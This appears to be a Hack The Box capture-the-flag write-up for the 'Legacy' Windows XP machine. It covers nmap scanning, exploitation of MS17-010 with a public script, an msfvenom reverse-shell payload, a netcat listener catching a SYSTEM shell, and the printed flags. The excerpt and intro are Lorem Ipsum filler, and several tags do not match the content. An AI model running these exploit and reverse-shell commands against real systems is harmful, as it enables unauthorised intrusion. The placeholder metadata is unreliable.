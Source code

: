 ```yaml
---
layout: single
title: Legacy - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-04-14
classes: wide
header:
  teaser: /assets/images/htb-writeup-legacy/legacy_logo.png
  teaser_home_page: true
  icon: /assets/images/windows.png
categories:
  - hackthebox
  - infosec
tags:  
  - windows
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-legacy/legacy_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. [root:/git/htb]# nmap -Pn -n -sCV 10.10.10.4 --open                                                                               (master✱)
    PORT    STATE SERVICE      VERSION
    139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp open  microsoft-ds Windows XP microsoft-ds
    Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

    Host script results:
    |_clock-skew: mean: 5d01h01m15s, deviation: 1h24m50s, median: 5d00h01m15s
    |_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:11:0b (VMware)
    | smb-os-discovery:
    |   OS: Windows XP (Windows 2000 LAN Manager)
    |   OS CPE: cpe:/o:microsoft:windows_xp::-
    |   Computer name: legacy
    |   NetBIOS computer name: LEGACY\x00
    |   Workgroup: HTB\x00
    |_  System time: 2021-03-01T12:38:45+02:00
    | smb-security-mode:
    |   account_used: <blank>
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    |_smb2-time: Protocol negotiation failed (SMB2)


  [root:/git/htb]# nmap -p139,445 --script vuln 10.10.10.4                                                                          (master✱)
    PORT    STATE SERVICE
    139/tcp open  netbios-ssn
    445/tcp open  microsoft-ds

    Host script results:
    |_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
    | smb-vuln-ms08-067:
    |   VULNERABLE:
    |   Microsoft Windows system vulnerable to remote code execution (MS08-067)
    |     State: LIKELY VULNERABLE
    |     IDs:  CVE:CVE-2008-4250
    |           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
    |           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
    |           code via a crafted RPC request that triggers the overflow during path canonicalization.
    |
    |     Disclosure date: 2008-10-23
    |     References:
    |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
    |_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
    |_smb-vuln-ms10-054: false
    |_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
    | smb-vuln-ms17-010:
    |   VULNERABLE:
    |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
    |     State: VULNERABLE
    |     IDs:  CVE:CVE-2017-0143
    |     Risk factor: HIGH
    |       A critical remote code execution vulnerability exists in Microsoft SMBv1
    |        servers (ms17-010).
    |
    |     Disclosure date: 2017-03-14
    |     References:
    |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
    |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
    |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143


2. ms17-010 is the obvious attack path here, lets exploit it.

a) Download the script 'send_and_execute.py'
b) Create your malicious payload:
    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=4488 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe

c) Execute!
    [root:/git/htb/legacy]# python send_and_execute.py 10.10.14.10 ms17-010.exe                                                       (master✱)
      Traceback (most recent call last):
        File "send_and_execute.py", line 2, in <module>
          from impacket import smb, smbconnection
      ImportError: No module named impacket

d) If you get the error like above, it's because your python2 version is to new.
  d1) uninstall pip3: sudo apt-get remove python3-pip
  d2) Get pip3 installer: curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
  d3) Install pip3: python3 get-pip.py
  d4) Get pip2 installer: curl https://bootstrap.pypa.io/2.7/get-pip.py -o get-pip.py
  d5) Install pip2: python get-pip.py
  d6) Now you can install any pip2 modules: pip install impacket
  d7) Make sure your python and python-pip are compatible. Python version 2.7.18 and pip 20.3.4 is preffered.

    [root:/git/htb/legacy]# python -m pip -V                                                                                          (master✱)
      pip 20.3.4 from /usr/local/lib/python2.7/dist-packages/pip (python 2.7)

    [root:/git/htb/legacy]# python -V                                                                                                 (master✱)
      Python 2.7.18

e) EXECUTE EXPLOIT AGAIN!
    [root:/git/htb/legacy]# python send_and_execute.py 10.10.10.4 ms17-010.exe                                                        (master✱)
      Trying to connect to 10.10.10.4:445
      Traceback (most recent call last):
        File "send_and_execute.py", line 1077, in <module>
          exploit(target, port, pipe_name)
        File "send_and_execute.py", line 794, in exploit
          conn = MYSMB(target, port)
        File "/git/htb/legacy/mysmb.py", line 118, in __init__
          smb.SMB.__init__(self, remote_host, remote_host, timeout=timeout)
        File "/usr/local/lib/python2.7/dist-packages/impacket/smb.py", line 2434, in __init__
          self._sess = nmb.NetBIOSTCPSession(my_name, remote_name, remote_host, host_type, sess_port, self.__timeout)
        File "/usr/local/lib/python2.7/dist-packages/impacket/nmb.py", line 893, in __init__
          timeout=timeout, local_type=local_type, sock=sock)
        File "/usr/local/lib/python2.7/dist-packages/impacket/nmb.py", line 752, in __init__
          self._sock = self._setup_connection((remote_host, sess_port), timeout)
        File "/usr/local/lib/python2.7/dist-packages/impacket/nmb.py", line 904, in _setup_connection
          raise socket.error("Connection error (%s:%s)" % (peer[0], peer[1]), e)
      socket.error: [Errno Connection error (10.10.10.4:445)] timed out

f) If above happens, reboot the box and execute a third time.
    [root:/git/htb/legacy]# python send_and_execute.py 10.10.10.4 ms17-010.exe                                                        (master✱)
      Trying to connect to 10.10.10.4:445
      Target OS: Windows 5.1
      Using named pipe: browser
      Groom packets
      attempt controlling next transaction on x86
      success controlling one transaction
      modify parameter count to 0xffffffff to be able to write backward
      leak next transaction
      CONNECTION: 0x82208430
      SESSION: 0xe1a57430
      FLINK: 0x7bd48
      InData: 0x7ae28
      MID: 0xa
      TRANS1: 0x78b50
      TRANS2: 0x7ac90
      modify transaction struct for arbitrary read/write
      make this SMB session to be SYSTEM
      current TOKEN addr: 0xe2116d30
      userAndGroupCount: 0x3
      userAndGroupsAddr: 0xe2116dd0
      overwriting token UserAndGroups
      Sending file KCC2VY.exe...
      Opening SVCManager on 10.10.10.4.....
      Creating service vteS.....
      Starting service vteS.....
      The NETBIOS connection with the remote host timed out.
      Removing service vteS.....
      ServiceExec Error on: 10.10.10.4
      nca_s_proto_error
      Done

    [root:/opt/impacket]# nc -lvnp 4488                                                                                                (master)
      listening on [any] 4488 ...
      connect to [10.10.14.10] from (UNKNOWN) [10.10.10.4] 1031
      Microsoft Windows XP [Version 5.1.2600]
      (C) Copyright 1985-2001 Microsoft Corp.

      C:\WINDOWS\system32>

      C:\Documents and Settings\john\Desktop>type user.txt
        e69af0e4f443de7e36876fda4ec7644f

      C:\Documents and Settings\Administrator\Desktop>type root.txt
        993442d258b0e0ec917cae9e695d5713


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. -

██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

send_and_execute.py
  https://github.com/helviojunior/MS17-010

mysmb.py
  https://github.com/worawit/MS17-010/blob/master/mysmb.py

no module named impacket fix:
  https://webcache.googleusercontent.com/search?q=cache:w_5LbLWkSMwJ:https://stackoverflow.com/questions/66087250/fix-for-kali-impacket-issues-between-python-2-and-3-2020-4+&cd=4&hl=sv&ct=clnk&gl=se
